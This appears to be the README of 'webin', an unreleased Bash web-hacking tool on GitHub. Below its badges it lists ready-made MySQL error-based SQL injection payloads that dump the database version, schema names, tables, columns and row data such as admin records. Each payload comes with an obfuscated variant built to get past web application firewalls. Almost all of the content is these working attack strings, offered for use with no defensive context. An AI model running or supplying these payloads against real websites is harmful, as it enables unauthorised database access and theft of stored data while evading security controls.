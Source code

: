 # webin ( not release yet )

<p align="center">
<img src="https://img.shields.io/badge/Version-1.0-purple?style=for-the-badge">
<img src="https://img.shields.io/github/license/1337r0j4n/webin?style=for-the-badge">
<img src="https://img.shields.io/github/stars/1337r0j4n/webin?style=for-the-badge">
<img src="https://img.shields.io/github/forks/1337r0j4n/webin?color=orange&style=for-the-badge">
<img src="https://img.shields.io/github/issues/1337r0j4n/webin?color=pink&style=for-the-badge">
</p>

<p align="center">
<img src="https://img.shields.io/badge/Open%20Source-Yes-darkcyan?style=for-the-badge">
<img src="https://img.shields.io/badge/Written%20In-Bash-darkblue?style=for-the-badge">
<img src="https://img.shields.io/badge/author%20-1337r0j4n-brown?style=for-the-badge">
<img src="https://api.visitorbadge.io/api/visitors?path=https%3A%2F%2Fgithub.com%2F1337r0j4n%2Fwebin&countColor=%23263759">
</p>


| grep -oP '(?<=[&?])[^&]*'
```
dump_version="+OR+1+GROUP+BY+CONCAT_WS(0x3a,VERSION(),FLOOR(RAND(0)*2))+HAVING+MIN(0)+OR+1--+-"
dump_version_waf="+/*!50000%4fR/**x**/*/+1+/*!50000%47ROUP/**x**/*/+/*!50000%42Y/**x**/*/+/*!50000%43ONCAT_WS/**x**/*/(0x3a,/*!50000%76ersion/**x**/*/(),/*!50000%46LOOR/**x**/*/(/*!50000%52AND/**x**/*/(0)*2))+/*!50000%48AVING/**x**/*/+MIN(0)+/*!50000%4fR/**x**/*/+1--+-"
```
```
dump_database="+AND(SELECT+1+FROM+(SELECT+COUNT(*),CONCAT((SELECT(SELECT+CONCAT(CAST(DATABASE()+AS+CHAR),0x7e))+FROM+INFORMATION_SCHEMA.TABLES+WHERE+table_schema=DATABASE()+LIMIT+0,1),FLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.TABLES+GROUP+BY+x)a)--+-"
dump_database_waf="+/*!50000%41ND/**x**/*/(/*!50000%53ELECT/**x**/*/+1+/*!50000%46ROM/**x**/*/+(/*!50000%53ELECT/**x**/*/+%43OUNT(*),/*!50000%43ONCAT/**x**/*/((/*!50000%53ELECT/**x**/*/(/*!50000%53ELECT/**x**/*/+/*!50000%43ONCAT/**x**/*/(%43AST(/*!50000%44ATABASE/**x**/*/()+/*!50000%41S/**x**/*/+/*!50000%43HAR/**x**/*/),0x7e))+/*!50000%46ROM/**x**/*/+/*!50000%49NFORMATION_%53CHEMA/**x**/*/./*!50000%54ABLES/**x**/*/+/*!50000%57HERE/**x**/*/+/*!50000%74able_%73chema/**x**/*/=/*!50000%44ATABASE/**x**/*/()+/*!50000%4cIMIT/**x**/*/+0,1),/*!50000%46LOOR/**x**/*/(/*!50000%52AND*/(0)*2))x+/*!50000%46ROM/**x**/*/+/*!50000%49NFORMATION_%53CHEMA/**x**/*/./*!50000%54ABLES/**x**/*/+/*!50000%47ROUP/**x**/*/+/*!50000%42Y/**x**/*/+x)a)--+-"
```
```
dump_table="+AND(SELECT+1+FROM+(SELECT+COUNT(*),CONCAT((SELECT(SELECT+CONCAT(CAST(table_name+AS+CHAR),0x7e))+FROM+INFORMATION_SCHEMA.TABLES+WHERE+table_schema=0x61646d696e+LIMIT+0,1),FLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.TABLES+GROUP+BY+x)a)--+-"
dump_table_waf="+/*!50000%41ND/**x**/*/(/*!50000%53ELECT/**x**/*/+1+/*!50000%46ROM/**x**/*/+(/*!50000%53ELECT/**x**/*/+%43OUNT(*),/*!50000%43ONCAT/**x**/*/((/*!50000%53ELECT/**x**/*/(/*!50000%53ELECT/**x**/*/+/*!50000%43ONCAT/**x**/*/(%43AST(/*!50000%74able_%6eame/**x**/*/+/*!50000%41S/**x**/*/+/*!50000%43HAR/**x**/*/),0x7e))+/*!50000%46ROM/**x**/*/+/*!50000%49NFORMATION_%53CHEMA/**x**/*/./*!50000%54ABLES/**x**/*/+/*!50000%57HERE/**x**/*/+/*!50000%74able_%73chema/**x**/*/=0x7365637572697479+/*!50000%4cIMIT/**x**/*/+0,1),/*!50000%46LOOR/**x**/*/(/*!50000%52AND/**x**/*/(0)*2))x+/*!50000%46ROM/**x**/*/+/*!50000%49NFORMATION_%53CHEMA/**x**/*/./*!50000%54ABLES/**x**/*/+/*!50000%47ROUP/**x**/*/+/*!50000%42Y/**x**/*/+x)a)--+-"
```
```
dump_column="+AND+(SELECT+1+FROM+(SELECT+COUNT(*),CONCAT((SELECT(SELECT+CONCAT(CAST(column_name+AS+CHAR),0x7e))+FROM+INFORMATION_SCHEMA.COLUMNS+WHERE+table_name=0x61646d696e+AND+table_schema=0x61646d696e+LIMIT+0,1),FLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.TABLES+GROUP+BY+x)a)--+-"
dump_column_waf="+/*!50000%41ND/**x**/*/+(/*!50000%53ELECT/**x**/*/+1+/*!50000%46ROM/**x**/*/+(/*!50000%53ELECT/**x**/*/+%43OUNT(*),/*!50000%43ONCAT/**x**/*/((/*!50000%53ELECT/**x**/*/(/*!50000%53ELECT/**x**/*/+/*!50000%43ONCAT/**x**/*/(%43AST(/*!50000%63olumn_%6eame/**x**/*/+/*!50000%41S/**x**/*/+/*!50000%43HAR/**x**/*/),0x7e))+/*!50000FROM/**x**/*/+/*!50000INFORMATION_SCHEMA/**x**/*/./*!50000%43OLUMNS/**x**/*/+/*!50000%57HERE/**x**/*/+/*!50000%74able_%6eame/**x**/*/=0x7573657273+/*!50000%41ND/**x**/*/+/*!50000%74able_%73chema/**x**/*/=0x7365637572697479+/*!50000%4cIMIT/**x**/*/+0,1),/*!50000%46LOOR/**x**/*/(/*!50000%52AND/**x**/*/(0)*2))x+/*!50000%46ROM/**x**/*/+/*!50000%49NFORMATION_%53CHEMA/**x**/*/./*!50000%54ABLES/**x**/*/+/*!50000%47ROUP/**x**/*/+/*!50000%42Y/**x**/*/+x)a)--+-"
```
```
dump_data="+AND+(SELECT+1+FROM+(SELECT+COUNT(*),CONCAT((SELECT(SELECT+CONCAT(CAST(CONCAT(admin)+AS+CHAR),0x7e))+FROM+admin.admin+LIMIT+0,1),FLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.TABLES+GROUP+BY+x)a)--+-"
dump_data_waf="+/*!50000%41ND/**x**/*/+(/*!50000%53ELECT/**x**/*/+1+FROM+(/*!50000%53ELECT/**x**/*/+%43OUNT(*),/*!50000%43ONCAT/**x**/*/((/*!50000%53ELECT/**x**/*/(/*!50000%53ELECT/**x**/*/+/*!50000%43ONCAT/**x**/*/(%43AST(/*!50000%43ONCAT/**x**/*/(column,0x3a3a,column)+/*!50000%41S/**x**/*/+/*!50000%43HAR/**x**/*/),0x7e))+/*!50000%46ROM/**x**/*/+database.table+/*!50000%4cIMIT/**x**/*/+3,1),/*!50000%46LOOR/**x**/*/(/*!50000%52AND/**x**/*/(0)*2))x+/*!50000%46ROM/**x**/*/+/*!50000%49NFORMATION_%53CHEMA/**x**/*/./*!50000%54ABLES/**x**/*/+/*!50000%47ROUP/**x**/*/+/*!50000%42Y/**x**/*/+x)a)--+-"
```
